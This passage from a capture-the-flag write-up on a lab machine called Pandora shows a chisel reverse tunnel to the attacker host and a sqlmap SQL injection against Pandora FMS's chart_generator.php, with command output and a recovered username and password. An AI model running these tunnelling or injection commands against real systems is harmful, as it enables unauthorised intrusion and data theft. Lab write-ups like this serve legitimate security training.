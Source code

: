 And indeed it does we can see some sort of url directory.  
I am now going to port forward this port/make a TCP tunnel using chisel.  
You can download chisel from here:  
> https://github.com/jpillora/chisel

First off we start a listening server on our Attackingg machine and I choose port 8000.  

```bash
┌──(herc㉿kali)-[/opt/PrivEsc]
└─$ `./chisel server -p 8000 --reverse`
2022/03/25 15:14:09 server: Reverse tunnelling enabled
2022/03/25 15:14:09 server: Fingerprint hxf4AbOWXm2Lw8gVroQT1VaTiJityeZ0f8xtpqiBLjY=
2022/03/25 15:14:09 server: Listening on http://0.0.0.0:8000
```

Next upload chisel binary to the box however you want obviously python3 mini server imo. best.  
And then on the box create a tunnel with ports we need.  

```bash
daniel@pandora:/tmp$ ./chisel client 10.10.14.2:8000 R:80:127.0.0.1:80
2022/03/25 14:37:10 client: Connecting to ws://10.10.14.2:8000
2022/03/25 14:37:11 client: Connected (Latency 44.292333ms)
```

Like this and then we can see that it is working if we check back to oue chisel server terminal pane  

```bash
2022/03/25 15:18:42 server: session#1: tun: proxy#R:80=>80: Listening
```

[![Capture.png](https://i.postimg.cc/rp25Nyym/Capture.png)](https://postimg.cc/CRJZFgqT)

Right off the bat we can see it is some kind of software and we can also see the version of  
`Pandora` down below which I boxed in red for better visibility.  

[![Capture.png](https://i.postimg.cc/GpnST1ZP/Capture.png)](https://postimg.cc/xXgPBBjq)

I tried using default admin credentials with fail.  
Also credentials we found previously `daniel:HotelBabylon23` also didn't work.  
so next I will try to google for some exploits since we have version.  

## Unauthenticated SQL Injection  

After a bit of research I found there is a SQLi in `/include/chart_generator.php?session_id=` parameter.  
you can see more details on this link since person behind this post goes in depth:  
> https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

So obviously since there is a SQLi somewhere first thig I do i pop up my favourite `sqlmap` tool :).  

```bash
┌──(herc㉿kali)-[~]
└─$ `sqlmap --url="127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" --batch --dbs`

...[SNIP]...

[15:34:39] [INFO] fetching database names
[15:34:39] [INFO] retrieved: 'information_schema'
[15:34:39] [INFO] retrieved: 'pandora'
available databases [2]:
[*] information_schema
[*] pandora
```
